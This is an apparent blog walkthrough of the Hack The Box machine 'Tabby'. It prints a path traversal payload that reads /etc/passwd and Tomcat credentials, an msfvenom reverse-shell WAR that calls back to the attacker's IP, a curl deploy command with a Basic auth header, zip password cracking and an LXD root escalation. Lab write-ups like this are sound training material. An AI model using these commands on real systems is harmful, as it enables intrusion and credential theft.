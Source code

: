 ```yaml
---
permalink: /portfolio/htb_linux/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Linux Hack The Box Writeup for Tabby
---
```


## Enumeration

First, we run the old trusty nmap:

```bash
sudo nmap 10.10.10.194 -p 80,8080,22 -sC -sV -oN nmap.txt
```

Before this command, I ran `nmap 10.10.10.194 -p-` to get the ports 22,80 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`.

With the result:

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we can see that this box has is running an ssh-server, an apache webserver and a Tomcat instance. The versions are all latest, so there is nothing to find there. Let's take a look at the webpages.

We start at port 80, or the "normal" webpage.

![webpage](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/webpage.png)

It looks like a page from a hosting company. Let's fuzz it some more!

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.194/ -x html,php,txt
```

Here we use Gobuster to find all the webpages on the server. The wordlist is Dirb's common.txt, a good fuzzing list that isn't very long. Most pages can be found with this list. Then we state the website and last we state the file extensions it should look for.

This is the result (minus `.htaccess` pages).

```bash
/assets (Status: 301)
/favicon.ico (Status: 200)
/files (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/news.php (Status: 200)
/Readme.txt (Status: 200)
/server-status (Status: 403)
```

A `readme.txt` is often pretty interesting.

![readme.txt](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/readme.png)

Bummer. No version numbers or update log. We are dealing with a `HTML/CSS` one-pager. Alright, let's look at the other pages. The only other non-default is news.php.

![new](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/news.png)

Okay, a page that apologises for a recent data breach, ironic. Let's take a better look at that URL:

```url
http://10.10.10.194/news.php?file=statement
```

File equals statement? That looks like an arbitrary file read vulnerability to me. Let's test it with a file that everyone should be able to access:

```url
http://10.10.10.194/news.php?file=../../../../etc/passwd
```

![read](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/read.png)

Terrific, we can read files. I brought the request over to burp-suite for easier checking and checked whether there are any limits on the read, by checking the `news.php` file:

![burp](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/burp.png)

Alright, before we continue, let's see why we can read files. The PHP file gets the GET-parameter named file. Then it puts `files/` in front of it and reads the file. Why can we read files outside of the folder `files`? `fopen` reads a file from a given path, without any checks or sanitation. If we back out of the folder `files` with `..` we are in the folder with `news.php`, probably in the folder `/var/www/html` as this is the default path for Apache. So, if we keep going back we reach the system's root and we can go to any path from there. I choose to check `/etc/passwd` because this file is almost always there and readable for all users.

So we can read files without limits. Great! But we don't have a lot to check right now, let's check the tomcat page first.

![tomcat_main](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/tomcat_main.png)

Basic Tomcat installation, let's check the admin-pages.

![tomcat_login](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/tomcat_login.png)

Of course, we need a password, and we don't have one, *yet*. We can abuse the file-read of the webpage to read the passwords of Tomcat!

It took some fuzzing, because the Tomcat config folder is not installed in the default folder, but we can read `/usr/share/tomcat9/etc/tomcat-users.xml`.

![tomcat-users](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/tomcat-users.png)

Alright, so now with this user we can log into Tomcat. However, looking at the roles of the user, we can only use the GUI of admin. On the admin-page, you can manage virtual hosts. Something we don't want or need. We need to access the manager system so we can upload a shell. We can, but not with the easy GUI, we only have text-rights. This means we need to bring our shell only through an HTTP-request.

## Exploitation

First, we generate our payload, Tomcat uses war files to bring it's webpages online, so we make a war-shell using `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=8090 -f war > shell.war
```

Then we start our Netcat listener to catch the shell once it is uploaded:

```bash
nc -lnvp
```

Then we upload the payload to the server using our new credentials.

![postman](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/postman.png)

Here I am using postman to upload the .war file, but we can als use a curl command (generated by postman):

```bash
curl --location --request PUT 'http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true' \
--header 'Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==' \
--form 'file=@/home/kali/htb/tabby/shell.war'
```

Then we just navigate to `http://10.10.10.194:8080/shell` and we catch a reverse shell!

I then always use some simple steps to upgrade the shell to a proper STTY, so I can use tab and Ctrl+C.

![shell](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/shell.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
enter 2x
export TERM=xterm
```

## Enumeration 2

After some searching and running [LinPeass](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find that there are some more interesting files in `/var/www/html/files`. A zip archive to be exact. It appears the be a back-up of some sort. After trying to extract it, it seems to be password-protected. I moved it over to my local machine and ran `fcrackzip` to find it's password.

```bash
fcrackzip --u -D -p '/usr/share/wordlists/rockyou.txt' out.zip
```

![crack](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/crack.png)

And the password is `admin@it`. The archive itself contains nothing of interest, but let's try the new password and the user `ash`.

![user](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/user.png)

## Exploitation 2

So, now let's get to root. I forgot to screenshot this, but the user ash is in the `lxd` group. LXD is a technology similar to docker, and if you're in this group, you can spawn a root-shell. Using [this website](https://www.exploit-db.com/exploits/46978) I build the image on my local machine and transferred it to my victim. Then I executed this script, which creates the container with an unsafe flag and connects the file-systems. This way you have a root shell on the container, but you can also read files on the host. This way we get the root flag!

![root](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/root.png)

And that's it!
